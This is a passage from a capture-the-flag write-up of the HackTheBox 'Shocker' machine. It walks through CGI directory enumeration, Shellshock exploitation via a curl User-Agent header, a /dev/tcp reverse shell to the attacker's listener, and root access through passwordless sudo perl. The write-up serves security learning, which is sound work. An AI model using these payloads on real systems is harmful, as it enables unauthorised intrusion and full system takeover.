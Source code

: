 Additional content discovery efforts reveal the `user.sh` script file within the `/cgi-bin/` directory.

```
feroxbuster -u http://<target-ip>/cgi-bin/ -x htm,html,js,php,txt,json,zip,bak,pdf,docx,conf,py,js,sh,cgi,pl | tee cgi-feroxbuster.txt
```
```
200      GET        7l       18w        0c http://<target-ip>/cgi-bin/user.sh
```

From here, we can use a curl request to confirm that the server is vulnerable:
```
virtualtack@virtualshack ~/htb/shocker [±main U:2 ?:56 ✗] curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://<target-ip>/cgi-bin/user.sh
shelly
```

Excellent! Now we can modify our request payload to contain shellcode, giving us a reverse shell.

## Foothold

`curl -A "() { :;}; echo Content-Type: text/html; echo; /bin/sh -i >& /dev/tcp/<kali-ip>/9999 0>&1;" http://<target-ip>/cgi-bin/user.sh`
```
virtualtack@virtualshack ~/htb/shocker [±main U:2 ?:56 ✗] nc -lvnp 9999
listening on [any] 9999 ...
connect to [<kali-ip>] from (UNKNOWN) [<target-ip>] 49184
/bin/sh: 0: can't access tty; job control turned off
$ whoami
shelly
```

## PrivEsc

Luckily, the privilege escalation vector is simple. As one of our standard, initial checks after obtaining user access, we check to see which commands and/or binaries can be run by our user with `root` permissions.

```
$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl

```

Thus, the `shelly` user account has been configured to run the `perl` binary locate din `/usr/bin/` with `root` privileges, all without needing the account password. From here, a [quick GTFOBins check](https://gtfobins.github.io/gtfobins/perl/) reveals that we simply need to run `sudo perl -e 'exec "/bin/sh";'` to spawn a shell session with full access.
